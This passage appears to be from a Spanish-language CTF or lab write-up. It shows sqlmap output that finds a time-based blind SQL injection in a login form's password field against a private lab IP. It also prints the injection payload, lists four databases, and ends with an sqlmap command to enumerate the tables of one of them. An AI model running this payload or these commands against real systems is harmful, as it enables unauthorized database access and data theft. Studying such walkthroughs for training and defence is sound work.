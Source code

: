 ```
[14:03:56] [WARNING] if UNION based SQL injection is not detected, please consider forcing the back-end DBMS (e.g. '--dbms=mysql') 
[14:03:56] [INFO] target URL appears to be UNION injectable with 3 columns
injection not exploitable with NULL values. Do you want to try with a random integer value for option '--union-char'? [Y/n] y
[14:03:58] [INFO] checking if the injection point on POST parameter 'password' is a false positive
POST parameter 'password' is vulnerable. Do you want to keep testing the others (if any)? [y/N] n
sqlmap identified the following injection point(s) with a total of 202 HTTP(s) requests:
---
Parameter: password (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: 
username=admin&password=admin' AND (SELECT 5760 FROM (SELECT(SLEEP(5)))bBpi) AND 'gWSm'='gWSm
---
[14:04:16] [INFO] the back-end DBMS is MySQL
[14:04:16] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions 
web server operating system: Linux Ubuntu
web application technology: Apache 2.4.58
back-end DBMS: MySQL >= 5.0.12
[14:04:16] [INFO] fetching database names
[14:04:16] [INFO] fetching number of databases
[14:04:16] [INFO] retrieved: 
do you want sqlmap to try to optimize value(s) for DBMS delay responses (option '--time-sec')? [Y/n] y
4
[14:04:25] [INFO] retrieved: 
[14:04:35] [INFO] adjusting time delay to 1 second due to good response times
information_schema
[14:05:32] [INFO] retrieved: performance_schema
[14:06:29] [INFO] retrieved: crackoff_db
[14:07:04] [INFO] retrieved: crackofftrue_db
available databases [4]:
[*] crackoff_db
[*] crackofftrue_db
[*] information_schema
[*] performance_schema

[14:07:52] [WARNING] HTTP error codes detected during run:
500 (Internal Server Error) - 48 times
[14:07:52] [INFO] fetched data logged to text files under '/root/.local/share/sqlmap/output/172.25.0.2'

[*] ending @ 14:07:52 /2024-08-21/
```

Ahora que sabemos que la base de datos es `crackofftrue_db` haremos lo siguiente.

```shell
sqlmap -r request.txt --batch -D crackofftrue_db --threads 10 --tables
```
